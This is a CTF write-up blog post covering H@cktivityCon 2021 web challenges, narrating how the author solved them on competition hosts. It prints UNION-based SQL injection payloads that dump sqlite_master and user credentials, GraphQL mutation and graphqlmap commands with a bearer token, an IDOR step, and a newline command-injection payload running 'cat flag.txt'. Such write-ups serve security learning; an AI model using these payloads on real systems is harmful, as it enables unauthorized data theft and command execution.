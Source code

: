 ```yaml
---
layout: post
title:  H@cktivityCon CTF 2021  Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/Hackcon/abu_index.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/Hackcon/abu_index.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>H@cktivityCon CTF 2021  Web Challenges Writeup </h1>  
 <!--more-->

Hello All iam abdelhameed ghazy and this is my writeup for some web challenges in H@cktivityCon CTF 2021 

First challenge : All Backed Up    Level: Medium      sqlite_injection and graphql 
Desc : Grandma always knew how to make tried-and-true baked goods, and these recipes prove it!


<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_index.png" /> 

as we see there is four blogs about cakes so let's see any one of them
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_somecake.png" /> 


as we see there is a endpoint called post and then there is another endpoint had the name of cake so let's try sqli 
http://challenge.ctf.games:31353/post/Blackberry-Orange Cake' or 1=1--
after i tried this it gives the first cake : 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli1.png" /> 

so let's know the numbers of columns by ' order by 1 --
after incresing the number we got that we had  6 columns so let's use union to dump data 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,2,3,4,5,6 --

the column 2,4,6  are reflected into the page so we will dump using them 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_column.png" /> 


first i used http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sqlite_version(),3,4,5,6 --

to make sure that's a sqlite so i tried to dump the columns from database by this 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 1,1 --
i found a table called posts so i ignored it and then i used this 
http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,sql,3,4,5,6 from sqlite_master limit 2,1--
to get the second table (users)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_users.png" /> 
as you see there is a table called users had username,password  so let's dump the creds 

http://challenge.ctf.games:31353/post/Blackberry-Orange' union select 1,username,3,password,5,6 from users--

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_sqli_creds.png" /> 
as you see we got the creds 

username :congon4tor   password : n8bboB!3%vDwiASVgKhv

and there isn't  user else 

so i stuck here but after review requests i found a request sent to graphql and i didn't like it :( 

so i used graphql map : (it's  not a scanner i just use it to help me write my quiers eaisly)

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphqlmap.png" /> 

python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json

and then i used dump_new command to view graphql contents 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_dump.png" /> 

as we see we had intersting stuff here 

Mutation called  (authenticateUser) took two parameters username and password both of them is string
Query called flag
token used in auth 

at first i tried to call flag qurey by this : {flag}
but it returned  :(error authenticating user: invalid token)

so by logic we need to use authenticateUser mutation to get token then used it to auth then call the flag query 

but for sorry i didn't know how to use it :( 
so i started searching how to use mutation and queries and Alhamdullah I got it 

first we will get the token by this command : mutation{authenticateUser(username:"congon4tor" password:"n8bboB!3%vDwiASVgKhv"){token}}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_graphql_token.png" /> 

nice !!! Now We got the token but didn't know how to use it to call the flag maybe it's a authorization header or we will send it in graphql parameter but after i switch on my browser tabs i found the github repo for graphqlmap it provide us to sent custom headers 
by this option : --headers

so, i exit graphql map and use this new command : 
python3 graphqlmap.py -u http://challenge.ctf.games:31353/graphql --method POST --json  --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNvbmdvbjR0b3IiLCJleHAiOjE2MzIyMzI1NjEsImlhdCI6MTYzMjA1OTc2MSwiaXNzIjoiQ29uZ29uNHRvciJ9.WhAB-0xq54d4w4WT0cW2Ev8iozY-ASk0pQi2WGHDv-8"}'

and then called flag query {flag}

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/abu_flag.png" /> 


Second  challenge : OPA Secrets    Level: Hard      Flask Code Review , Idor  
Desc : OPA! Check out our new secret management service

After you read : i see it's a not hard challenge but any way let's see 

after signup & login we found that it takes secret 

<img src="http://github.com/0xL4ugh/0xL4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_index.png" /> 

while browsing i found the github repo that had the source code ;) 

so as always i see the changes in the files and no thing intersted either admin password and it's not working also xD 
but i found secret from admin called Flag and it's id 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flagid.png" /> 

so let's see app.py  , as we see there is a endpoint called getValue that calls function called get_secret() 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_apppy.png" /> 

it sends post request to a locally host and get the secret so i tried secret id that we got and i got the flag xD

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/Hackcon/opa_flag.png" /> 


also we had an medium command injection  challenge that use sha256 command but  filters all special chars  (;&|) so i bypassed it by  : /n so my payload was 
flag.txt%0Acat flag.txt


